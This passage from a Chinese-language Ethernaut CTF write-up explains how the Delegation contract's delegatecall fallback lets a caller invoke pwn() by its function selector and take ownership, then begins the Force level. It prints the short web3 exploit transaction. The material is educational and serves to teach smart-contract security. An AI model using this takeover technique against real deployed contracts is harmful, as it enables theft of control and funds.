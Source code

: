```js
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

两种底层调用方式

> call 外部调用时，上下文是外部合约
>
> delegatecall 外部调用时，上下文是调用合约，相当于把代码复制过来在当前的环境执行

<img src="https://s3.bmp.ovh/imgs/2022/07/13/3bdbfef7a4655178.png" alt="7.png"  />

因此这里调用Delegate的pwn()函数就能得到Delegation的所有权

在solidty中可以通过method id（函数选择器）来调用函数

当给call传入的第一个参数是四个字节时，那么合约就会默认这四个自己就是要调用的函数，它会把这四个字节当作函数的id来寻找调用函数，而一个函数的id在以太坊的函数选择器的生成规则里就是其函数签名的sha3的前4个bytes，函数签名就是带有括号括起来的参数类型列表的函数名称。

因此整个过程是，通过fallback函数，传入的数据是pwn()的id，调用指定的pwn()函数

```js
await contract.sendTransaction({data:web3.utils.sha3("pwn()").slice(0,10)})
//or，keccak256就是sha3
await contract.sendTransaction({data:web3.utils.keccak256("pwn()").slice(0,10)})
```

## Force

让合约的balance大于0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

